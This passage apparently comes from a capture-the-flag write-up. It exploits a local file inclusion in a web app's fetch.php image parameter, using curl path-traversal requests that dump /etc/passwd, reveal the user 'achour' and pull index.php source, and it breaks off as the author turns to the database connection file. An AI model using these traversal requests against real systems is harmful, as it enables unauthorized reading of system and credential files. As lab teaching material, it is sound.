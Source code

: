 the page is getting the products images using `/fatch.php?image=PATH_TO_IMAGE`.

that's interesting, we can try to abuse it to get LFI :

```plaintext
└─$ curl 'http://10.10.165.19/fetch.php?image=../../../../etc/passwd'                                              
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
mysql:x:112:118:MySQL Server,,,:/nonexistent:/bin/false
achour:x:1002:1002::/home/achour:/bin/bash
```

we have LFI!

we see an existing user `achour` on the machine.

first let's try to get the source code of the main page of the website :

```php
└─$ curl 'http://10.10.165.19/fetch.php?image=../index.php'          
<?php
session_start();
require_once('db_connection.php');

if (!isset($_SESSION['user_id'])) {
    header('Location: login.php');
    exit();
}

$stmt = $conn->query("SELECT * FROM products");
$products = $stmt->fetchAll(PDO::FETCH_ASSOC);
?>
```
we see that `index.php` is requiring `db_connection.php`, let's read that file :
